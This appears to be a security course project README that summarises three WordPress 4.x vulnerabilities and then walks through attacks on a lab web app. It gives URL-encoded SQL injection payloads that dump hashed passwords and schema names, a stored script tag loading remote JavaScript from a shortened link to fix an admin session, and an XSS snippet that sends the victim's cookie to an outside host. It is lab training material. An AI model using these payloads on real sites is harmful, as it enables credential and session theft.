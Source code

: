 # Weeks-7-8-Project-WordPress-vs.-Kali
Time spent: 30 hours spent in total

## SQL Injection:

This is an SQL injection vulnerability in Wordpress version 4.7.1. This vulnerability allows remote hackers to execute arbitrary commands by taking advantage an affected plugin or theme that mishandles a crafted post type name. This vulnerability requires very little knowledge or skill to exploit and is ranked 7.5 on the Common Vulnerability Scoring System. Authentication is not required to exploit the vulnerability. Modification of files and information on the system is possible, but the scope of what the attacker can affect is limited. 

## CRSF:
This is a cross-site request forgery CSRF vulnerability in the widget-editing accesibility-mode feature in Wordpress version 4.7.1. This allows remote hackers to hijack the authentication of unspcified victims for requestst that allow for widget-access action that is related to wp-aadmin/includes/class-wp-screen.php. This vulnerability has a CVSS score of 6.8. This vulnerability allows for limited scope of modification on the attacker’s behalf. Authenticcation is not required to exploit this vulnerability.

Example of this is found at https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733

## DoS:
This vulnerability allows remote attackers to cause a denial of service attack via unspecified vendors due to the oEmbed protocol implementation in the WordPress. This vulnerability existed in Wordpress version 4.5.2 and was secured in the 4.5.3 version. This has a CVSS score of 5.0 and was considered to be a low level of access complexity, meaning that very little knowledge is needed to exploit this. The CWE is not defined for this vulnerability.

## Vulnerability #1: SQL Injection (SQLi)

### Steps to recreate:

- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1

- Replace the id parameter with a single quote '. Example: https://104.198.208.81/blue/public/salesperson.php?id='

- After the quote type url encoded SQL command. Example: https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+

- You can interate through the records by changing the LIMIT and OFFSET values

- Some of the example commands:
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+

## Vulnerability #2: Session Hijacking/Fixation
### Steps to recreate:

- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
      <script src="https://bit.ly/2z1UCVh"></script>
- https://bit.ly/2z1UCVh is a shortened link for a js script hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin
- This is possible because new PHPSESSID is not generated when a used logs into website

## Vulnerability #3: Cross-Site Scripting (XSS)
### Steps to recreate:

- Go to the Contact page.
- In the text area type the following script
  <script>var node = document.createElement('img');
  node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
  document.getElementById("main-content").appendChild(node);</script>
- Submit the form
- When admin checks the feeedback PHPSESSID will be sent to the http://192.168.1.2:3000 address as a GET parameter
